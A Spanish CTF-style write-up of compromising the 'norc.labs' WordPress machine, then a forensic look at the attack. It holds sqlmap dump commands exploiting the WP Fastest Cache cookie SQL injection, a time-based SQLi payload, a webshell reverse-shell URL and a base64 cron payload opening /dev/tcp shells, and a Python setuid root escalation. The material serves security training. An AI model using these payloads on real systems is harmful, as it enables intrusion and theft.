






## Fase 1: Pentesting y Obtención de Acceso 

Una vez desplegada la máquina virtual, lo primero que realizamos es un nmap para escanear la máquina y descubrir los servicios y puertos abiertos. Encontramos dos puertos abiertos:

- Puerto 22: SSH.
- Puerto 80: HTTP.


Al intentar acceder por HTTP, nos encontramos que hay una redirección a norc.labs. Para poder seguirla y que se resuelva correctamente la petición, tenemos que actualizar nuestro /etc/hosts añadiendo una nueva entrada:


Una vez actualizado el fichero, accedemos y encontramos una página de login en el que nos deja introducir una contraseña. Podríamos usar algún método de fuerza bruta para obtenerla ya que no hay un límite de intentos, pero buscamos otra solución.

Usamos la herramienta gobuster para ver qué otros directorios hay en la página. El comando es el siguiente: 

```bash
gobuster dir -u http://norc.labs -w /usr/share/wordlists/dirb/common.txt -t 50 -b 404,302

```

Lo ejecutamos sobre la URL con una wordlist por defecto de gobuster y buscamos archivos php, html o txt. Además, ignoramos las respuestas que devuelvan un 404 o 302. Los directorios más interesantes que obtenemos son los siguientes:


 Son directorios comunes en Wordpress, por lo que ya tenemos más información sobre la página. Si accedemos a wp-admin, vemos que es una página de login de wordpress, pero aquí no podemos aplicar fuerza bruta para la contraseña ya que solo hay 3 intentos para introducirla. Pero sabiendo que es un wordpress, ya tenemos la información de que existe una base de datos y seguramente algún plugin que pueda ser vulnerable. 

Empezamos por buscar algún plugin. Buscamos algún fichero en internet que contenga una wordlist con plugins comunes en wordpress, y los usamos junto a la herramienta ffuf para ir probando y ver cuáles encontramos. Tras probar varias wordlists distintas, con una de ellas obtenemos el siguiente resultado:

```bash
ffuf -u http://norc.labs/FUZZ -w plugins.txt -fs 0 -fc 403
```


Podemos ver que está corriendo (Status 200) el plugin de wp-fastest-cache, e investigando sobre sus posibles vulnerabilidades encontramos que es sensible a sql injection.  Es vulnerable a la inyección en una cookie mediante el siguiente comando:

```bash
sqlmap --dbms=mysql -u "http://norc.labs/wp-login.php" --cookie='wordpress_logged_in=*' --level=2 --schema
```

Obtenemos como salida es esquema general, con dos bases de datos:

- information_schema
- wordpress

La que nos interesa es la segunda, para ver si podemos obtener de alguna forma el usuario o la contraseña de algún usuario. Ejecutamos ahora el comando pero sobre la base de datos wordpress:

```bash
sqlmap -u "http://norc.labs/wp-login.php" --cookie="wordpress_logged_in=*" --dbms=mysql --level=2 --tables -D wordpress
```

La salida que obtenemos son todas las tablas de esa base de datos:


La que más nos interesa es la tabla de wp_users, ya que es donde podemos obtener los datos para acceder a la página de wordpress. Ejecutamos el comando para obtener los datos de esa tabla:

```bash
sqlmap -u "http://norc.labs/wp-login.php" --cookie="wordpress_logged_in=*" --dbms=mysql --dump -D wordpress -T wp_users
```


Obtenemos el usuario, su correo electrónico y también la contraseña, aunque hasheada, por lo que no nos sirve para acceder.

Aún así, podemos ver que el email pertenece al dominio "oledockers.norc.labs". Lo visitamos y vemos que no resuelve la petición, por lo que lo metemos también en el /etc/hosts. Al acceder, vemos que es una bandeja de entrada con un mensaje en el que podemos obtener el usuario y su contraseña, obteniendo acceso al wordpress.


Una vez dentro de WordPress, tendremos acceso a varias funcionalidades. Entre ellas se encuentra la edición de los archivos del theme, los cuales contienen código en PHP, HTML, CSS y JavaScript, y determinan cómo se muestra y funciona el sitio web. Esta opción permite modificar el comportamiento del sitio de manera legítima, pero también puede ser aprovechada con fines maliciosos.

Si un atacante logra acceder al panel de administración, puede editar archivos clave del tema, como el index.php del theme Twenty Twenty-Two, para insertar código malicioso. A través de esta modificación, es posible ejecutar comandos en el servidor, establecer conexiones remotas o incluso crear una puerta trasera para acceder al sitio de manera persistente.



```bash
http://norc.labs/wp-content/themes/twentytwentytwo/index.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F1234%200%3E%261%27
```

Establecemos un shell inverso que nos permite atraves de una llamada http conectarnos a la maquína.



Una vez dentro de la máquina, nos encontraremos ejecutando comandos con el usuario www-data, que es el usuario por defecto de servidores web como Apache y Nginx. Este usuario tiene permisos limitados dentro del sistema, lo que restringe nuestras acciones y evita que podamos modificar archivos críticos o ejecutar comandos con privilegios elevados.

El primer paso será explorar los distintos archivos y directorios en busca de información sensible o posibles vulnerabilidades. Para ello, revisaremos los permisos, propietarios y configuraciones de archivos clave que puedan darnos acceso a otros usuarios o procesos con más privilegios. Centraremos nuestra atención en el directorio /home/kvlz, ya que pertenece a otro usuario que probablemente tenga más permisos que www-data.

Al analizar el sistema, encontramos un script llamado cron_script.sh dentro del directorio del usuario kvlz. Observamos que su función principal es leer el contenido de un archivo llamado wp-encrypted.txt, el cual está cifrado en Base64, luego desencriptarlo y volcar el resultado en /tmp/decoded.txt. A mayores, utilizando la herramienta pspy comprobamos que la terea se ejecuta una vez por minuto.



Este comportamiento sugiere que el script se ejecuta de manera automática en intervalos de tiempo, posiblemente a través de una tarea programada con cron.

Dado que el archivo wp-encrypted.txt no existe en el sistema, podemos aprovechar la situación para crear nuestro propio archivo. La idea es escribir el código que, al ser descifrado por el script, permita establecer un shell inverso en el puerto 1234. Una vez que se tenga el comando o secuencia de comandos necesaria, se procede a cifrarlo en Base64 para que, al ejecutarse el script y se decodifique. Desde otro terminal esperamos a que el payload se ejecute y tendremos acceso a la máquina con el usuario kvzlx.

```bash
echo "bash -i &> /dev/tcp/172.17.0.1/1234 0>&1" | base64 > /var/www/html/.wp-encrypted.txt
```



Al investigar los archivos en el sistema, no encontramos binarios con permisos inusuales que pudieran explotarse directamente para la escalada de privilegios. Sin embargo, observamos que en el directorio /opt está instalada una versión de Python, lo que podiamos intuir, ya que en el análisis con la herramienta pspy, notamos que los permisos de ejecución de Python fueron retirados para el usuario www-data.

Centrandonos en pyhon procedemos a utilizar la herramienta getcap para analizar las capabilities. Un mecanismo de control de privilegios en sistemas operativos basados en Unix que permite dividir los privilegios del superusuario (root) en distintas “capacidades” independientes.

Como no podemos instalar la herramienta directamente en la maquina vulnerable lo que haremos es crear un servidor que corra en el puerto 8080 y nos permita descargar atraves de wget los ficheros necesarios para la ejecución de la herramienta desde la máquina vulnerable.



Con la ejecución del comando observamos que phyton puede tiene asignada la capacidad cap_setuid=ep. En Linux, esta capacidad permite otorgar privilegios específicos a binarios o procesos sin que tengan que ser ejecutados directamente como root. Para intentar explotar esta aparente vulnerabilidad intentaremos ejecutar el siguiente comando: 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
/opt/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Como resultado, conseguimos acceder al usuario root con privilegios elevados.



## Fase 2: Análisis Forense Post-Explotación

# Vulnerabilidad CVE-2023-6063: 
Descripción

La vulnerabilidad afecta al plugin de WordPress WP Fastest Cache en versiones anteriores a la 1.2.2. Esta falla de seguridad permite a atacantes no autenticados extraer el contenido completo de la base de datos de WordPress mediante una inyección SQL ciega basada en tiempo (Time-Based Blind SQL Injection).

Detalles Técnicos

La vulnerabilidad se encuentra en la función is_user_admin(), que es invocada por createCache(). Esta función obtiene el valor de $username a partir de cualquier cookie que contenga "wordpress_logged_in" en su nombre, extrayendo todo hasta el primer carácter |.

El problema radica en que esta variable se inserta directamente en una consulta SQL sin aplicar escape ni sanitización, lo que permite a un atacante manipular la consulta SQL e inyectar código malicios.

    ```bash
            public function is_user_admin(){
            global $wpdb;
 
            foreach ((array)$_COOKIE as $cookie_key => $cookie_value){
                if(preg_match("/wordpress_logged_in/i", $cookie_key)){
                    $username = preg_replace("/^([^\|]+)\|.+/", "$1", $cookie_value);
                    break;
                }
            }
 
            if(isset($username) && $username){            
                $res = $wpdb->get_var("SELECT `$wpdb->users`.`ID`, `$wpdb->users`.`user_login`, `$wpdb->usermeta`.`meta_key`, `$wpdb->usermeta`.`meta_value`
                                       FROM `$wpdb->users`
                                       INNER JOIN `$wpdb->usermeta`
                                       ON `$wpdb->users`.`user_login` = \"$username\" AND
                                       `$wpdb->usermeta`.`meta_key` LIKE \"%_user_level\" AND
                                       `$wpdb->usermeta`.`meta_value` = \"10\" AND
                                       `$wpdb->users`.`ID` = `$wpdb->usermeta`.user_id ;"
                                    );
 
                return $res;
            }
 
            return false;
        }
    ```

Explotación

Al no filtrar correctamente $username, un atacante puede modificar manualmente la cookie wordpress_logged_in para inyectar una consulta maliciosa.

En un ataque de inyección SQL ciega basada en tiempo, se emplea la función SLEEP() para inducir una demora en la respuesta del servidor si la inyección es exitosa.

Ejemplo de carga útil utilizada en la cookie:

```bash
wordpress_logged_in=" AND (SELECT 8454 FROM (SELECT(SLEEP(5)))PFsz) AND "DrZk"="DrZ
```
Impacto

Exposición completa de la base de datos de WordPress: Un atacante puede recuperar nombres de usuario, contraseñas hash, correos electrónicos y otros datos sensibles.

Ejecución de consultas arbitrarias en la base de datos.

Potencial escalamiento de privilegios, al acceder a cuentas de administrador.


# Primeros pasos del análisis

Desde la perspectiva de un analista que ya ha confirmado la vulneración de la máquina, la prioridad inicial es identificar el origen del ataque. Para ello, la primera verificación se realizará en los archivos de registro, centrándose en el archivo wtmp, que comúnmente almacena los inicios de sesión del sistema.

La salida del comando nos da información importante sobre el ataque. En primer lugar la dirección ip de la máquina que nos ha hackeado, la fecha exacta de cuando se hizo la conexión y de que manera se ha conectado, en este caso pts/0 indica que el acceso se realizó a través de una terminal virtual, posiblemente mediante SSH o Docker exec.

A continuación ejecutamos el ps aux --sort=start_time | grep root. Este comando se utiliza para listar los procesos en ejecución en el sistema, filtrando aquellos que pertenecen al usuario root. El comando ps aux muestra información detallada sobre los procesos en ejecución. La opción a permite ver los procesos de todos los usuarios, u muestra los procesos en formato detallado (con el usuario, uso de CPU/memoria, etc.), y x incluye procesos que no están asociados a una terminal.

La opción --sort=start_time ordena la salida por el momento en que los procesos fueron iniciados, de los más antiguos a los más recientes. Esto nos permite ver qué procesos han sido iniciados recientemente, lo cual es útil para detectar actividad sospechosa.

El uso de grep root filtra los resultados para mostrar solo los procesos que están siendo ejecutados por el usuario root. Esto nos ayuda a identificar si hay procesos anómalos o sospechosos que se están ejecutando con privilegios elevados. En la salida del comando, observamos varios procesos legítimos que pertenecen a root, como el inicio del servicio Apache (/usr/sbin/apache2), el servicio de cron (/usr/sbin/cron), el servicio SSH (sshd), y la base de datos MySQL (mysqld_safe). Sin embargo, hay un proceso en particular que llama la atención:

```bash
root         1122  0.0  0.1  13828  7720 pts/0    S    17:44   0:00 /opt/python3 -c import os; os.setuid(0); os.system("/bin/bash")
```

Este proceso ejecuta un comando en Python que utiliza os.setuid(0) para asignarse permisos de root y luego abre una shell de Bash (/bin/bash). Esto es un indicio claro de que alguien ha intentado escalar privilegios dentro del sistema. Dado que este proceso se inició después de la conexión sospechosa de root en last, es probable que sea parte del ataque. Ahora, el siguiente paso es analizar de dónde proviene este proceso, si ha establecido conexiones externas y si ha dejado algún rastro en los archivos del sistema.

```bash
root          30  0.0  0.8 265704 34856 ?        Ss   17:39   0:00 /usr/sbin/apache2 -k start
www-data      35  0.0  1.5 345608 62348 ?        S    17:39   0:00  \_ /usr/sbin/apache2 -k start
www-data      36  0.0  1.4 342240 58420 ?        S    17:39   0:00  \_ /usr/sbin/apache2 -k start
www-data      37  0.0  1.4 345228 57572 ?        S    17:39   0:00  \_ /usr/sbin/apache2 -k start
www-data      38  0.0  1.4 347248 56896 ?        S    17:39   0:00  \_ /usr/sbin/apache2 -k start
www-data     395  0.0  0.0   2576  1396 ?        S    17:43   0:00  |   \_ sh -c bash -c 'bash -i >& /dev/tcp/172.17.0.1/1234 0>&1'
www-data     396  0.0  0.0   3924  3000 ?        S    17:43   0:00  |       \_ bash -c bash -i >& /dev/tcp/172.17.0.1/1234 0>&1
www-data     397  0.0  0.0   4188  3204 ?        S    17:43   0:00  |           \_ bash -i
www-data      39  0.0  1.4 342572 59560 ?        S    17:39   0:00  \_ /usr/sbin/apache2 -k start
www-data     328  0.0  1.2 340988 50148 ?        S    17:40   0:00  \_ /usr/sbin/apache2 -k start
www-data     352  0.0  1.3 269728 52988 ?        S    17:40   0:00  \_ /usr/sbin/apache2 -k start
www-data     354  0.0  1.2 340988 50148 ?        S    17:40   0:00  \_ /usr/sbin/apache2 -k start
www-data     355  0.0  1.2 340988 50052 ?        S    17:40   0:00  \_ /usr/sbin/apache2 -k start
www-data     357  0.0  1.2 340988 50040 ?        S    17:40   0:00  \_ /usr/sbin/apache2 -k start
root          48  0.0  0.0   3600  1908 ?        Ss   17:39   0:00 /usr/sbin/cron
root         401  0.0  0.0   5980  3036 ?        S    17:44   0:00  \_ /usr/sbin/CRON
kvzlx        402  0.0  0.0   2576  1352 ?        Ss   17:44   0:00  |   \_ /bin/sh -c /home/kvzlx/.cron_script.sh
kvzlx        403  0.0  0.0   3924  2796 ?        S    17:44   0:00  |       \_ /bin/bash /home/kvzlx/.cron_script.sh
kvzlx        408  0.0  0.0   4188  3188 ?        S    17:44   0:00  |           \_ bash -i
kvzlx        410  0.0  0.2  13880  8308 ?        S    17:44   0:00  |               \_ python3 -c import pty; pty.spawn("/bin/bash")
kvzlx        411  0.0  0.0   4568  3444 pts/0    Ss   17:44   0:00  |                   \_ /bin/bash
root         413  0.0  0.1  13828  7720 pts/0    S    17:44   0:00  |                       \_ /opt/python3 -c import os; os.setuid(0); os.system("/bin/bash")
root         414  0.0  0.0   2576  1520 pts/0    S    17:44   0:00  |                           \_ sh -c /bin/bash
root         415  0.0  0.0   4568  3300 pts/0    S+   17:44   0:00  |                               \_ /bin/bash
```
Con forest podemos observar que el usuario kvzlx ha creado un terminal iterativo de python y ha inicaido sesión con el usuario root, lo que indica una clara escalada de privilegios. 


Para ello nos apoyaremos en la herramienta wireShark. Esta herramienta nos permite tener una visualización sencilla de todo el tráfico de la máquina y realizar filtrados de manera sencilla, lo que nos permite encontar comportamientos extraños en nuestro sistema.


